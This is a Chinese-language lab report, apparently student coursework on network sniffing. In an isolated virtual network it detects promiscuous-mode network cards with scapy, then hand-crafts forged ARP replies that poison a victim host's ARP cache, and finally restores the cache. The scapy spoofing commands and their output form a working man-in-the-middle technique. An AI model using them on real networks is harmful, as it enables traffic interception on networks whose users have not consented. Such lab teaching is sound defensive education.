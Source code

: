 # 网络监听

### 网络拓扑

![layout](./img/layout.png)

如图所示网络中的节点基本信息如下：

- 攻击者主机 eth0
  - 172.16.111.115
  - 08:00:27:45:3a:a0
  
- 受害者主机 eth0
  - 172.16.111.111
  - 08:00:27:0e:34:8d
  
- 网关 enp0s9
  - 172.16.111.1
  - 08:00:27:9a:b4:3b

### 实验准备

##### 安装 scapy

在攻击者主机上提前安装好scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

### 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:0e:34:8d brd ff:ff:ff:ff:ff:ff
```

![link_show_01](./img/link_show_01.png)

```
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.111")
```

![pkt_01](./img/pkt_01.png)

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:0e:34:8d brd ff:ff:ff:ff:ff:ff
```

![link_show_02](./img/link_show_02.png)

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.111")
```

![pkt_02](./img/pkt_02.png)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:45:3a:a0
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:45:3a:a0
#      psrc= 172.16.111.115
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```

![arpbroadcast_01](./img/arpbroadcast_01.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:45:3a:a0")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![arp_send_01](./img/arp_send_01.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
# 172.16.111.115 dev eth0 lladdr 08:00:27:45:3a:a0 STALE
# 172.16.111.1 dev eth0 lladdr 08:00:27:45:3a:a0 REACHABLE
```

![ip_01](./img/ip_01.png)

回到攻击者主机上的 `scapy` 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:9a:b4:3b", pdst="172.16.111.111", hwdst="08:00:27:0e:34:8d")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:9a:b4:3b", psrc="172.16.111.111", hwsrc="08:00:27:0e:34:8d")
sendp(restorepkt2, count=100, inter=0.2)
```

![arp_send_02](./img/arp_send_02.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ip_02](./img/ip_02.png)

### 补充FAQ

#### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```

```
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

### scapy 的交互式控制台在自动补全时触发太多 `DeprecationWarning` 的解决办法

进入 `scapy` 交互式控制后输入以下代码并执行。

```python
import warnings
warnings.filterwarnings('ignore')
```

### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化

根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：

> -p --no-promiscuous-mode Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, `-p' cannot be used as an abbreviation for`ether host {local-hw-addr} or ether broadcast'.

使用 `-p` 参数可以禁止使用「混杂」模式嗅探网卡。

### 实验问题

- 在执行 `pkt = promiscping("172.16.111.111")` 命令时报错
  - ![pkt_error](./img/pkt_error.png)
  - 解决措施：执行`scapy`时`sudo scapy`

### 参考链接

- [第四章 网络监听](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/main.html)
